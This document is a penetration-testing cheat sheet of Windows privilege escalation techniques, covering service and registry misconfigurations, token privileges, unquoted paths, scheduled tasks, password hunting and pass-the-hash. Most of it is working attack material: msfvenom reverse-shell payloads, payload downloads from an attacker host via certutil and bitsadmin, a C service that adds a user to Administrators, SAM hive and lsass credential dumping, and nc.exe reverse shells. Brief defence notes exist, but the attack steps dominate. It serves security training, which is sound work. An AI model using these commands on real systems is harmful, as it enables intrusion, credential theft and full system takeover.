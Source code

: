 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================
 
In Windows, services running as LocalSystem (highest privilege) with non-default or writable executable paths and weak permissions can be exploited for privilege escalation. This document provides detection, exploitation, and remediation steps.

🔍 1. Enumerate Services Running as LocalSystem with Non-Standard Paths
These services might use custom paths (e.g., C:\Users\Public\svc.exe) instead of the protected default (C:\Windows\System32).

✅ PowerShell:

    Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and
    $_.PathName -notlike "C:\Windows\System32*"
    } | Select-Object Name, StartName, PathName

    
✅ WMIC:
cmd

    wmic service get name,startname,pathname | findstr /i "LocalSystem" | findstr /v /i "C:\\Windows\\System32"
<img width="1016" height="237" alt="image" src="https://github.com/user-attachments/assets/b58cd5a7-6d2d-4bba-b200-baa7cc66faee" />
🔐 2. Check Permissions on Service Configuration
Use AccessChk to determine whether a user can start, stop, configure, or modify a service.

✅ Command:
cmd

    .\accesschk64.exe /accepteula -uwcqv user servicename
Look for permissions like:

Permission	Meaning
SERVICE_ALL_ACCESS	Full control
SERVICE_CHANGE_CONFIG	Can change service binary path
WRITE_DAC / WRITE_OWNER	Can escalate to full control
GENERIC_WRITE / GENERIC_ALL	Equivalent to full control
<img width="939" height="407" alt="image" src="https://github.com/user-attachments/assets/e4ea7ead-9a28-4752-9e52-74c28bc09e8b" />

📂 3. Identify Writable Service Executables
✅ Export Executable Paths:

    for /f "tokens=2 delims='='" %a in ('wmic service list full ^| find /i "pathname" ^| find /v /i "system32"') do @echo %a >> C:\Windows\Temp\services.txt
✅ If wmic is not available:
cmd

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
✅ Check Permissions:
cmd

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do accesschk.exe /accepteula -qv "%a" >> accesschk.txt
Or use icacls/cacls:

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do icacls "%a" >> icacls.txt
Look for:

Symbol	Meaning
(F)	Full Access
(M)	Modify Access
(W)	Write Access
(WDAC)	Write DACL
(WO)	Write Owner

⚙️ 4. Exploitation Steps
✅ 4.1 Replace the Service Executable
Generate a reverse shell payload (Metasploit):

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_priv.exe
Host it:

bash

    python3 -m http.server 8999
Transfer to target:

powershell

    wget http://<attacker_ip>:8999/reverse_priv.exe -o reverse_priv.exe
Overwrite service binary:

powershell

    copy reverse_priv.exe "C:\Path\To\Service.exe"
✅ 4.2 Start the Service
c

    sc start <service>
Or:

cmd

    net start <service>
⚡ 5. Writable Service Object Exploitation
✅ Find Writable Service Objects
cmd

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *
✅ Update Service Binary Path
cmd

    sc config <service> binPath= "C:\Path\To\reverse_priv.exe"
Remove dependencies if blocking:

cmd

    sc config <service> depend= ""
Change service start mode to manual:

cmd

    sc config <service> start= demand
Update service to run as SYSTEM:

c

    sc config <service> obj= ".\LocalSystem" password= ""
✅ Start/Stop Service:
cmd

    sc stop <service>
sc start <service>
Or:

cmd

    net stop <service>
    net start <service>
🧪 6. Validate Exploitability
powershell

    Get-WmiObject Win32_Service -Filter "Name='<service>'" |Select-Object Name, DisplayName, StartMode, State, StartName, PathName
<img width="1064" height="161" alt="image" src="https://github.com/user-attachments/assets/6fdbbea7-d56e-4cb4-80a3-4f9016f995c8" />
    
🤖 7. Automated Enumeration
✅ SharpUp
Use SharpUp.exe for automated privilege escalation checks.

cmd

    SharpUp.exe --services
    or: SharpUp.exe audit
 <img width="974" height="482" alt="image" src="https://github.com/user-attachments/assets/b36466e1-923a-4ddb-8188-bcfb99ac4c76" />
   
✅ Summary of Exploit Steps
Step	Description
🔍 1	Find services running as LocalSystem with writable paths
🔐 2	Check if current user can change or control the service
💣 3	Replace binary with malicious payload
▶️ 4	Restart or trigger the service to execute payload
⚡ 5	Get SYSTEM-level shell

🔐 Remediation Checklist
✅ Always install services in C:\Windows\System32

✅ Set tight permissions using sc sdset or GPO

✅ Regularly audit services using:

 Sysinternals AccessChk

 PowerUp / SharpUp

✅ Enable AppLocker / Software Restriction Policies

✅ Monitor service creation/modification with Sysmon

</details>
<details>
<summary>Weak Registry Permissions</summary>
 <br> 
  ============================

Windows services are configured in the registry under HKLM\SYSTEM\CurrentControlSet\Services. If a non-privileged user has write or full control over a service's registry key, they can change critical values like ImagePath — allowing execution of arbitrary binaries with SYSTEM privileges when the service is started.

🕵️ Step 1: Detect Weak Registry Permissions
🔎 Using WinPEAS (Automated)
Run winPEASany.exe:

cmd

    .\winPEASany.exe all
Look for entries under:
[Services - Registry Permissions]
These reveal services where the current user has excessive permissions.

<img width="1050" height="103" alt="image" src="https://github.com/user-attachments/assets/a5f5b04c-49d7-469b-84b8-35af1f32e7cd" />
🔎 Using PowerShell (Manual Check)
Check a specific service like regsvc:

powershell

    Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
Look for:

Access : NT AUTHORITY\INTERACTIVE Allow  FullControl
✅ If FullControl or Write access is granted to Everyone, INTERACTIVE, or the current user — it's vulnerable.
<img width="1031" height="559" alt="image" src="https://github.com/user-attachments/assets/f7944279-ac80-4103-bf83-6bc320210f30" />

🐚 Step 2: (Optional) Generate Reverse Shell Payload
Generate a payload on your attacker (Kali) machine:

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker-ip> LPORT=1234 -f exe -o reverse_shell.exe
Or write a custom C service:
    #include <windows.h>
    #include <stdio.h>
    
    #define SLEEP_TIME 5000
    
    SERVICE_STATUS ServiceStatus; 
    SERVICE_STATUS_HANDLE hStatus; 
     
    void ServiceMain(int argc, char** argv); 
    void ControlHandler(DWORD request); 
    
    //add the payload here
    int Run() 
    { 
        system("cmd.exe /k net localgroup administrators user /add");
        return 0; 
    } 
    
    int main() 
    { 
        SERVICE_TABLE_ENTRY ServiceTable[2];
        ServiceTable[0].lpServiceName = "MyService";
        ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;
    
        ServiceTable[1].lpServiceName = NULL;
        ServiceTable[1].lpServiceProc = NULL;
     
        StartServiceCtrlDispatcher(ServiceTable);  
        return 0;
    }
    
    void ServiceMain(int argc, char** argv) 
    { 
        ServiceStatus.dwServiceType        = SERVICE_WIN32; 
        ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
        ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
        ServiceStatus.dwWin32ExitCode      = 0; 
        ServiceStatus.dwServiceSpecificExitCode = 0; 
        ServiceStatus.dwCheckPoint         = 0; 
        ServiceStatus.dwWaitHint           = 0; 
     
        hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
        Run(); 
        
        ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
        SetServiceStatus (hStatus, &ServiceStatus);
     
        while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
        {
    		Sleep(SLEEP_TIME);
        }
        return; 
    }
    
    void ControlHandler(DWORD request) 
    { 
        switch(request) 
        { 
            case SERVICE_CONTROL_STOP: 
    			ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
     
            case SERVICE_CONTROL_SHUTDOWN: 
                ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
            
            default:
                break;
        } 
        SetServiceStatus (hStatus,  &ServiceStatus);
        return; 
    } 
**Edit the C code**:

Change the `system()` call in `windows_service.c` to the desired command. For example:

    system("cmd.exe /k net localgroup administrators user /add");

<img width="784" height="573" alt="image" src="https://github.com/user-attachments/assets/7758c770-cd18-4aa5-8a1a-41f2d2817b37" />
Compile it:

bash

    x86_64-w64-mingw32-gcc windows_service.c -o x.exe
  <img width="641" height="188" alt="image" src="https://github.com/user-attachments/assets/22c39aeb-deda-4f41-9e5c-e33d649f8e0b" />   
📤 Step 3: Transfer the Payload to the Target
From the target system (Windows), run:

cmd

    certutil -urlcache -split -f http://<attacker-ip>:8999/x.exe x.exe
<img width="692" height="120" alt="image" src="https://github.com/user-attachments/assets/0f93c4dd-9e1d-4341-a547-3642530616a6" />

   
🧠 You can also use Python HTTP server or impacket-smbserver to serve the file.

📝 Step 4: Modify the Service Registry Key
Replace the service binary with your payload by editing ImagePath:

cmd

    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\x.exe /f
✅ REG_EXPAND_SZ is used for variables like %SystemRoot% but works with hardcoded paths too.

🚀 Step 5: Start the Hijacked Service
Trigger the service manually:

cmd

    sc start regsvc
or

cmd

    net start regsvc
Your payload (x.exe) now executes as SYSTEM.

✅ Step 6: Confirm SYSTEM Privileges
If your payload added a user to the admin group, verify:

cmd

    net localgroup administrators
You should see the new user added successfully.
<img width="778" height="278" alt="image" src="https://github.com/user-attachments/assets/35626fa9-491d-4617-8375-8a17561f609a" />

📉 Cleanup (Optional)
Restore the original ImagePath (if known).

Delete your payload:

cmd

    del C:\temp\x.exe
Remove the user (if created):

cmd

    net user <user> /del
🛡️ Detection & Mitigation
Control	Description
🔍 Registry Monitoring	Use tools like Sysmon (Event ID 13) to track changes to HKLM\SYSTEM\CurrentControlSet\Services\*
🛡️ ACL Auditing	Regularly audit service permissions: check for users/groups with Write or FullControl
🚫 Least Privilege	Ensure non-admin users don’t have access to service registry keys
🔐 Group Policy	Enforce secure registry ACLs through GPO
🔁 Service Hardening	Reconfigure vulnerable services or replace legacy components

📝 Summary Cheat Sheet
Action	Command
Detect vuln services	Get-Acl or winPEASany.exe
Set malicious ImagePath	reg add ... /v ImagePath ...
Trigger service	sc start <svc>
Check admin status	net localgroup administrators 
</details>
<details>
<summary>SeBackupPrivilege</summary>
 <br> 
 ============================
 
🔑 What is SeBackupPrivilege?
SeBackupPrivilege is a special Windows permission intended for backup operations.

It allows a user to bypass file ACLs and read any file on the system — even highly sensitive ones like:

C:\Windows\System32\config\SAM

C:\Windows\System32\config\SYSTEM

Attackers can abuse this to extract password hashes and escalate privileges.

🔍 Step 1: Check for SeBackupPrivilege
After getting access (e.g., through Evil-WinRM), check assigned privileges:

powershell

    whoami /priv
   <img width="923" height="339" alt="image" src="https://github.com/user-attachments/assets/18ee9197-db13-4739-b7cf-69ffa64bdf96" />

✅ Look for SeBackupPrivilege in the output.

📁 Step 2: Dump Registry Hives
Create a Temp Directory and Dump SAM & SYSTEM
powershell

    cd C:\
    mkdir Temp
    reg save hklm\sam C:\Temp\sam
    reg save hklm\system C:\Temp\system
 <img width="766" height="416" alt="image" src="https://github.com/user-attachments/assets/5f011469-d495-42eb-8b76-fe2af58a191e" />
   
📥 Step 3: Transfer Files to Kali
Use Evil-WinRM's built-in download command:

powershell

    cd Temp
    download sam
    download system
 <img width="563" height="298" alt="image" src="https://github.com/user-attachments/assets/178f145f-cb49-4cb4-9f82-6e1e424d6658" />
   
🔓 Step 4: Extract Hashes on Kali
🐍 Option 1: Using PyPyKatz
bash

    pypykatz registry --sam sam system
✅ This will output NTLM hashes like:
<img width="1021" height="296" alt="image" src="https://github.com/user-attachments/assets/cf46c206-5e73-4c69-ba4b-3ab653fe5069" />


Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e0375cf8e440aa58a809d57edd78996::
🧰 Option 2: Using Impacket’s secretsdump.py

    cd ~/impacket
    python3 -m venv impacket-env
    source impacket-env/bin/activate
    secretsdump.py -system /home/kali/system -sam /home/kali/sam LOCAL
 <img width="1056" height="320" alt="image" src="https://github.com/user-attachments/assets/9fa97eb3-93ba-496e-9418-ecb08ed1bb24" />
   
🚪 Step 5: Lateral Movement / Privilege Escalation
Use the extracted NTLM hash to pivot or escalate.

🛠️ Option 1: Evil-WinRM (Pass-the-Hash)

evil-winrm -i <target-ip> -u <domain\user> -H <NTLM-hash>
Example:

    evil-winrm -i 192.168.216.130 -u corp\administrator -H 5e0375cf8e440aa58a809d57edd78996
🛠️ Option 2: CrackMapExec

    crackmapexec smb <target-ip> -u Administrator -H <NTLM-hash>
🛠️ Option 3: PsExec (from Impacket)

    psexec.py Administrator@<target-ip> -hashes :<NTLM-hash>
🧑‍💼 Bonus: Enumerate Users (Optional)
If you need to look up domain users on a DC:

powershell

    Get-ADUser -Filter * | Select-Object Name, SamAccountName
Requires ActiveDirectory module, usually available on domain controllers.

🔚 Summary
Step	Action
1️⃣	Check if user has SeBackupPrivilege
2️⃣	Dump SAM and SYSTEM hives using reg save
3️⃣	Download files using evil-winrm
4️⃣	Extract hashes with pypykatz or secretsdump.py
5️⃣	Reuse hashes with Evil-WinRM, CrackMapExec, or PsExec for lateral movement or privilege escalation

 </details>

 <details>
<summary>SeImpersonatePrivilege</summary>
 <br>
  =====================
  
🔍 What is SeImpersonatePrivilege?
The SeImpersonatePrivilege is a powerful permission in Windows that allows a user to impersonate the security context of another user. This is typically used by services to act on behalf of a client.

✅ If a low-privileged user account has SeImpersonatePrivilege, it can often be exploited to escalate to SYSTEM or Administrator using various impersonation attacks.

🧠 Why is it dangerous?
This privilege allows attackers to impersonate privileged tokens (like SYSTEM or admin) when certain services or RPC endpoints allow it.

It is commonly exploited in local privilege escalation (LPE) scenarios.

🔍 Identifying SeImpersonatePrivilege
Run this on the target system (PowerShell):

powershell

    whoami /priv | findstr SeImpersonatePrivilege
If you see it as Enabled, you can likely proceed with known exploits.
<img width="1041" height="362" alt="image" src="https://github.com/user-attachments/assets/aeb520d9-af88-4719-b8cb-4707dcabfedb" />

⚙️ Exploitation Tools
🔧 1. PrintSpoofer
PrintSpoofer abuses the SeImpersonatePrivilege via the Print Spooler service to impersonate SYSTEM.

🧪 Steps:
Upload the executable to the target system:

powershell

    upload PrintSpoofer.exe
<img width="1064" height="178" alt="image" src="https://github.com/user-attachments/assets/7d0e6a51-a786-4ae1-85a7-c54c65220d4c" />
    
Run PrintSpoofer to add your user to the Administrators group:

powershell

    .\PrintSpoofer.exe -i -c "net localgroup Administrators <user-name> /add"
-i → impersonate token

-c → command to execute as SYSTEM
<img width="1025" height="77" alt="image" src="https://github.com/user-attachments/assets/fed9f6a6-9e19-4292-9e6d-03c5d0059f91" />

✅ Your user is now part of the Administrators group.

🔧 2. GodPotato
GodPotato is a modern implementation of the RottenPotatoNG/JuicyPotato concept, abusing COM/RPC misconfigurations and SeImpersonate privilege to execute commands as SYSTEM.

🧪 Steps:
Upload the GodPotato executable:

powershell

    upload GodPotato-NET4.exe
Execute the command to add your user to the Administrators group:

powershell

.\GodPotato-NET4.exe -cmd "cmd /c net localgroup Administrators r.andrews /add"
✅ Once executed successfully, the user is elevated.
<img width="1052" height="574" alt="image" src="https://github.com/user-attachments/assets/ef72d9f6-4d43-45c8-8f50-7cca73d7e933" />

✅ Confirming Privilege Escalation
You can now verify that your user has admin access:

powershell

whoami /groups
net user <user-name>
Or list protected directories:

powershell

dir C:\Users\Administrator\
📌 Notes:
These exploits work only locally and require SeImpersonatePrivilege.

These tools may trigger EDR/AV, so obfuscation or alternative binaries might be needed.

Not all Windows builds are vulnerable; ensure the Print Spooler or vulnerable COM servers are available.

🧰 Alternative Tools & Techniques
Tool	Description
JuicyPotato	Legacy COM exploit, works only on older versions
RoguePotato	Bypasses newer Windows protections
PrintSpoofer	Exploits Print Spooler to impersonate SYSTEM
GodPotato	Updated COM exploit using .NET

📚 References
https://github.com/itm4n/PrintSpoofer

https://github.com/BeichenDream/GodPotato

  </details>
  
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

================================

🔧 Windows Privilege Escalation – Unquoted Service Path Exploit
🧠 Concept Summary
When a Windows service is registered with an unquoted executable path and contains spaces, Windows attempts to locate the executable by parsing the path from left to right, trying each path fragment with .exe appended. If an attacker can write to any of these directories, they can drop a malicious executable and gain privilege escalation when the service is started.

📌 Prerequisites
Attacker has low-privileged shell (RDP, reverse shell, etc.)

One or more services have unquoted paths

Attacker has write permissions to any folder in the service's executable path

🔍 Step 1: Enumeration
✅ Using SharpUp (automated):
powershell

    .\SharpUp.exe auto
✅ Using winPEAS (automated):
powershell

    .\winPEASany.exe all
<img width="1063" height="472" alt="image" src="https://github.com/user-attachments/assets/87a483f6-856f-44ec-9811-6222e88f6b3e" />

✅ Manually with sc:
powershell

    sc qc <ServiceName>
# Example:
sc qc unquotedsvc
Look for output like:

<img width="1039" height="338" alt="image" src="https://github.com/user-attachments/assets/ffd807da-a68d-4d6b-910a-7959ebdfa778" />


BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\service.exe
⚠️ Notice the path is unquoted and contains spaces.

✅ Find all unquoted services in one command:
powershell

wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
🔍 Step 2: Check Write Permissions
✅ Use accesschk.exe (from Sysinternals):
powershell

    accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
🔎 Look for:
[RW] BUILTIN\Users
Meaning: any user can write in that directory.
<img width="992" height="159" alt="image" src="https://github.com/user-attachments/assets/0beb539f-c833-41eb-8ed0-882fb1b87533" />

🎯 Step 3: Exploitation
✅ Upload Reverse Shell Payload
powershell

    copy reverse_shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
⚠️ Name the payload according to where Windows would first look.
For path:
C:\Program Files\Unquoted Path Service\Common Files\service.exe
Windows may try:

C:\Program.exe

C:\Program Files.exe

C:\Program Files\Unquoted.exe

C:\Program Files\Unquoted Path.exe

C:\Program Files\Unquoted Path Service\Common.exe ← ✅ our injection point

Choose the earliest writable location in the path.

📞 Step 4: Start Listener (Kali)
bash

    nc -lvnp 4444
🚀 Step 5: Trigger the Service
powershell

    net start unquotedsvc
🧨 This starts the service and executes your malicious binary.
🎉 You now have a SYSTEM-level shell.
<img width="1064" height="321" alt="image" src="https://github.com/user-attachments/assets/27d6c468-3580-405f-b788-1725775f7e2b" />

🔐 Mitigation (Defender Notes)
Always quote service paths with spaces.

Restrict write permissions on system folders.

Use sc qc, GPO, or PowerShell auditing to periodically scan for misconfigurations.

✅ Checklist Summary
Task	Command/Tool
Enumerate Unquoted Paths	wmic, sc qc, SharpUp, winPEAS
Check Permissions	accesschk.exe
Upload Payload	copy reverse_shell.exe "Path"
Start Listener	nc -lvnp 4444
Start Service	net start <servicename>


</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
 =======================
 
Windows Task Scheduler allows users to schedule programs or scripts to run at specific times or system events. While this is a legitimate administrative feature, it can be abused by attackers for:

Privilege Escalation: If a scheduled task is executed with higher privileges, an attacker can inject or replace the associated executable to gain SYSTEM-level access.

Persistence: Scheduled tasks can ensure malware or shells re-execute after reboot or on a timed interval.

📌 Prerequisites
Low-privileged access to a Windows machine (e.g., via RDP or reverse shell).

Ability to read/write in directories where scheduled tasks point to executables.

OR permissions to create/modify tasks.

🔍 Step 1: Enumerate Scheduled Tasks
powershell

    schtasks /query /fo LIST /v
This lists all scheduled tasks in verbose format, including:

Task Name
Run As User
Executable Path
Schedule
Task State

📌 Look for:

Tasks run as NT AUTHORITY\SYSTEM

Executables located in user-writable paths (e.g., C:\Users\Public\, C:\ProgramData\, etc.)

🔥 Step 2: Create Malicious Executable (Reverse Shell)
Using MSFVenom to generate a reverse shell payload:

bash

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=8888 -f exe > shell.exe
Alternatively (⚙️ Alternative Payload Options):

Persistent Payload (Metasploit Meterpreter):

bash

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe > meterpreter.exe
Custom EXE (compiled C# or PowerShell script using MSBuild):

Use tools like MSBuild, donut, Nim, or C# executables.

🎯 Step 3: Inject Malicious Executable
Rename Original Executable (optional backup):

powershell

    ren file.exe file.bak
Download your payload to the same location:

powershell

    powershell -c "Invoke-WebRequest http://192.168.1.3/shell.exe -OutFile file.exe"
🔁 Alternate download methods:

certutil:

powershell

    certutil -urlcache -split -f http://192.168.1.3/shell.exe file.exe
bitsadmin:

powershell

    bitsadmin /transfer myDownloadJob /download /priority high http://192.168.1.3/shell.exe C:\Temp\file.exe
Confirm file is placed and matches original name.

📞 Step 4: Start Netcat Listener on Attacker Machine
bash

    nc -lvnp 8888
🕒 Step 5: Wait for the Scheduled Task to Trigger
On next trigger (e.g., boot time, time interval), your malicious file.exe is executed.

You receive a SYSTEM shell back.

🛡️ Detection & Monitoring
📌 View Task Scheduler Logs
Enable Event Log:

    Microsoft-Windows-TaskScheduler/Operational
Check via Event Viewer:

arduino

    Event ID 106: Task registered
    Event ID 200: Task started
    Event ID 201: Task completed
📌 Task Query for Investigation
powershell

    schtasks /query /fo LIST /v
📌 File System Monitoring
Use tools like:

🔍 Sysinternals Autoruns: Detects auto-starting entries, including scheduled tasks
Autoruns[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns]

🔍 Process Explorer: Investigates running processes and their privileges
Process Explorer[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer]

🔍 TCPView: Monitors live TCP/UDP connections
TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview]

🔀 Alternative Exploitation Scenarios
Scenario	Description
Writable Executable Path	Replace task's binary if stored in a writable location (e.g., C:\Users\Public\App.exe)
Create New Task (if user has rights)	Use schtasks /create to create a task running as SYSTEM
DLL Hijacking via Scheduled Task	If the task binary loads unmanaged DLLs unsafely, inject your malicious DLL
Startup Triggers	Abuse AtLogon, OnStartup, Daily triggers for persistence
Via COM objects / PowerShell WMI	Create tasks silently using PowerShell:

powershell

    $action = New-ScheduledTaskAction -Execute "shell.exe"
    $trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "PersistTask" -User "SYSTEM"
🔐 Mitigation Techniques
Defense	Description
Least Privilege Principle	Restrict ability to create/modify tasks to admin users only
Monitor Task Changes	Enable auditing of TaskScheduler logs
Protect File System	Secure executable paths used by tasks
Application Whitelisting	Prevent unauthorized executables (e.g., via AppLocker)
Regular Review	Periodic manual or automated audits of scheduled tasks

✅ Summary
Task	Command/Tool
Enumerate Tasks	schtasks /query /fo LIST /v
Create Payload	msfvenom -p windows/shell_reverse_tcp ...
Upload Payload	powershell wget, certutil, bitsadmin
Setup Listener	nc -lvnp <port>
Detect/Investigate	Event Viewer, Autoruns, Process Explorer, Sysmon
</details>

<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================
After gaining initial access to a Windows system, attackers often look for cleartext or weakly encrypted passwords stored in configuration files, registry keys, or leftover deployment scripts. These credentials can lead to privilege escalation or access to other systems in the network.

🔎 1. Search for Passwords in Files
✅ Search common keywords in common text files:
cmd

    findstr /si password *.txt *.xml *.ini
Searches for password (case-insensitive) in .txt, .xml, and .ini files.

✅ Search all files for keywords like password:
cmd

    findstr /spin "password" *.*
/s: recurse subdirectories
/p: skip binary files
/i: case-insensitive
/n: include line numbers

✅ Search for filenames suggesting stored credentials:

    dir /s *pass* == *cred* == *vnc* == *.config*
Looks for files that likely contain credentials in their names.

🔁 Alternative Filename Searches:

cmd

    dir /s /b *pass*.*  
    dir /s /b *cred*.*  
    dir /s /b *secret*.*  
    dir /s /b *.config  
    dir /s /b *.ini  
🗂️ 2. Check Known Files Containing Credentials
These files are often left over from Windows installations, third-party applications, or RDP/VNC tools:

cmd

    type C:\sysprep.inf
    type C:\sysprep\sysprep.xml
    type C:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
💡 These often contain Local Admin credentials used during unattended Windows installations.

📂 3. Look for Remote Desktop & VNC Credentials

    dir C:\*vnc.ini /s /b
    dir C:\*ultravnc.ini /s /b
    dir C:\ /s /b | findstr /si *vnc.ini
VNC applications often store saved passwords in these .ini files (sometimes base64 or weak XOR encoding).

🔁 Alternatives:

tightvnc.ini
realvnc.ini
*.rdp files

🧬 4. Search the Windows Registry for Stored Passwords
🔍 Search entire registry hives:

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
🔎 Scans for REG_SZ values containing password.

🔎 Targeted Registry Keys

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
Look for DefaultPassword, AutoAdminLogon, etc. Can be used to autologin as local admin.

cmd

    reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP"
SNMP community strings may be stored here (used for network equipment access).

    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
PuTTY session passwords, IPs, saved usernames – can be decoded from registry manually or using tools like putty-creds.

    reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v password
RealVNC stores encrypted passwords here. Can be cracked with tools like vncpwd.

💡 Extra Tip: Use PowerShell for Enhanced File Search
powershell

    Get-ChildItem -Recurse -Include *.xml,*.txt,*.ini -Path C:\ | 
    Select-String -Pattern "password" -SimpleMatch
More efficient and readable than findstr, especially with large directories.

📂 Locations Often Containing Secrets
Path	Description
C:\Users\<user>\AppData\Roaming\	App data, often includes creds
C:\ProgramData\	Global config files
C:\inetpub\wwwroot\	Web apps with DB connection strings
.git directories	May include .env, configs, hardcoded secrets
.rdp files	Remote Desktop files may store credentials
web.config, app.config	.NET config files with plaintext DB strings

🧰 Helpful Tools (Optional)
🛠️ Windows Credential Editor (WCE) – Dumps stored credentials.
🔎 LaZagne – Searches for stored passwords from various apps.
🧪 Mimikatz – Extracts plaintext credentials, tokens, and hashes from memory.
🔐 Secretsdump.py (Impacket) – Dumps credentials remotely via SMB.
🧾 NirSoft tools – GUI tools for saved browser, RDP, Outlook, etc., passwords.

🔐 Detection & Defense
Defense Strategy	Description
File Auditing	Monitor access to sensitive config and .xml, .ini, .rdp files
Registry Auditing	Use Sysmon + Event Logging to monitor suspicious registry access
Credential Scanning Tools	Use tools like truffleHog, gitleaks, or Stealthbits to scan systems/repos for secrets
Least Privilege	Avoid storing passwords in plaintext where possible, and restrict read permissions
Credential Manager	Use Windows Credential Locker or LSA to securely store secrets

✅ Summary Table
Task	Command
Find password in text files	findstr /si password *.txt *.xml *.ini
Search all files for keywords	findstr /spin "password" *.*
Search filenames	dir /s *pass*.*
Check common files	type c:\unattend.xml, etc.
Check registry	reg query HKLM /f password /t REG_SZ /s
PuTTY sessions	reg query HKCU\Software\SimonTatham\PuTTY\Sessions
VNC keys	reg query HKLM\SOFTWARE\RealVNC\WinVNC4 /v password


</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================
Passing the Hash is a post-exploitation technique that allows an attacker to authenticate using NTLM hashes without knowing the actual plaintext password. Instead of cracking hashes, the attacker reuses them directly to gain remote or local access under another user’s (typically admin) context.

🔍 Step 1: Dump NTLM Password Hashes
To perform PtH, you first need access to NTLM hashes. These can be obtained using credential-dumping tools:

✅ Common Hash Dumping Tools
cmd

    wce32.exe -w
    wce64.exe -w
    fgdump.exe
🧰 Alternative Hash Dumpers:

mimikatz.exe – Powerful credential extraction tool:

powershell

    sekurlsa::logonpasswords
lsass.dmp with secretsdump.py:

bash

    procdump64.exe -ma lsass.exe lsass.dmp
    secretsdump.py -system SYSTEM -security SECURITY -sam SAM LOCAL
LaZagne – Extracts saved creds from many apps

🌐 Passing the Hash – Remote Execution
Once you have an NTLM hash, you can use it to remotely authenticate and execute commands on other systems.

✅ Using pth-winexe
bash

    pth-winexe -U <domain>/<username>%<NTLM_hash> //<target-ip> cmd
🚩 Use Administrator or other privileged accounts for best results.

📌 Target Hostname Instead of IP

Some systems may require NetBIOS name resolution:

bash

    pth-winexe -U <domain>/<username>%<hash> //<hostname> cmd
🛠️ If hostname doesn't resolve, edit /etc/hosts:

php-template

    <target-ip>  <hostname>
✅ Using Environment Variable SMBHASH (Alternate Method)
bash

    export SMBHASH=<LM_hash>:<NTLM_hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd
Useful if only one hash type is available (LM or NTLM).

🧠 Tip: If LM hash is not used, you can leave it as 00000000000000000000000000000000

✅ Using impacket's wmiexec.py or psexec.py
bash

    psexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
    wmiexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
🔁 Use -k or -no-pass flags depending on your setup.

🖥️ Passing the Hash – Local Execution
In some cases, you can use the NTLM hash locally on the same machine where the hash was dumped to escalate privileges.

✅ Using runas (Custom Build for PtH)
⚠️ Windows' built-in runas.exe does not support PtH natively. This method works only with modified or patched versions (e.g., via PowerShell Empire or tools like RunasCs).

cmd

    runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
🧠 Note: You may need SeTcbPrivilege or SYSTEM-level context to impersonate other users with hashes locally.

✅ Using PowerShell (via Secure Strings)
powershell

    $secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    $mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    $computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
